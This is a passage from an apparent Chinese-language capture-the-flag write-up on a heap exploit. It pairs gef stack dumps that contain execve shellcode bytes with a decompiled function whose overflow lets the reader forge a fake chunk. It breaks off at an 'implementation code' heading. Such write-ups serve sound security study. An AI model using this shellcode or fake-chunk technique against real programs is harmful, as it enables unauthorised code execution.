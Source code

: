 ```
gef➤  x/30xg 0x7ffc8932e210-0x50
0x7ffc8932e1c0:    0x0000000000000009    0x00000000004008b5 &lt;--RIP
0x7ffc8932e1d0:    0x0000000000003233    0x0000000001db8010
0x7ffc8932e1e0:    0x00007ffc8932e240    0x0000000000400b34
0x7ffc8932e1f0:    0x00007f42d1d0c8e0    0x00007f42d1f1f700
0x7ffc8932e200:    0x0000000000000030    0x0000000000000020 &lt;--id
0x7ffc8932e210:    0x6e69622fb848686a    0xe7894850732f2f2f &lt;--v2[] &lt;--shellcode
0x7ffc8932e220:    0x2434810101697268    0x6a56f63101010101
0x7ffc8932e230:    0x894856e601485e08    0x050f583b6ad231e6
0x7ffc8932e240:    0x00007ffc8932e260    0x0000000000400b59
0x7ffc8932e250:    0x00007ffc8932e348    0x0000000100000000 
0x7ffc8932e260:    0x0000000000400b60    0x00007f42d1968830 &lt;--RIP(left)
```
- 写入0x40个字节，但是buf只有0x38字节，超出的字节会覆盖dest，即能够修改ptr指针。我们可以着手布置我们的fake chunk。
```
int sub_400A29()
`{`
  char buf; // [rsp+0h] [rbp-40h]
  char *dest; // [rsp+38h] [rbp-8h]

  dest = (char *)malloc(0x40uLL);
  puts("give me money~");
  read(0, &amp;buf, 0x40uLL);
  strcpy(dest, &amp;buf);
  ptr = dest;
  return case();
`}`
```

写入money的函数（sub_400A29）是在写入id的函数（sub_400A8E）内调用的，也就是说`char buf; // [rsp+0h] [rbp-40h]`在id的低位置处，两者中间存在sub_400A29函数的RIP和RBP。所以我们可以通过id和buf分别模拟一个fake chunk的size和next size，就能伪造一个chunk。（如下图所示）

```
gef➤  x/40xg 0x7ffe5ce04cf0-0x90
0x7ffe5ce04c60:    0x0000000000000000    0x0000000202070168
0x7ffe5ce04c70:    0x00007ffe5ce04cc0    0x0000000000400a8c &lt;--RIP
0x7ffe5ce04c80:    0x0000000000000000    0x0000000000000000
0x7ffe5ce04c90:    0x0000000000000000    0x0000000000000000
0x7ffe5ce04ca0:    0x0000000000000000    0x0000000000000041 &lt;--size of fake chunk (buf[5])
0x7ffe5ce04cb0:    0x0000000000000000    0x00007ffe5ce04cb0 &lt;--ptr --&gt; fake chunk
0x7ffe5ce04cc0:    0x00007ffe5ce04d20    0x0000000000400b34 &lt;--RIP
0x7ffe5ce04cd0:    0x00007fc301e438e0    0x00007fc302056700
0x7ffe5ce04ce0:    0x0000000000000030    0x0000000000000020 &lt;--next size of fake chunk (id)
0x7ffe5ce04cf0:    0x6e69622fb848686a    0xe7894850732f2f2f &lt;--shellcode
0x7ffe5ce04d00:    0x2434810101697268    0x6a56f63101010101
0x7ffe5ce04d10:    0x894856e601485e08    0x050f583b6ad231e6
0x7ffe5ce04d20:    0x00007ffe5ce04d40    0x0000000000400b59
0x7ffe5ce04d30:    0x00007ffe5ce04e28    0x0000000100000000
0x7ffe5ce04d40:    0x0000000000400b60    0x00007fc301a9f830
```

实现代码
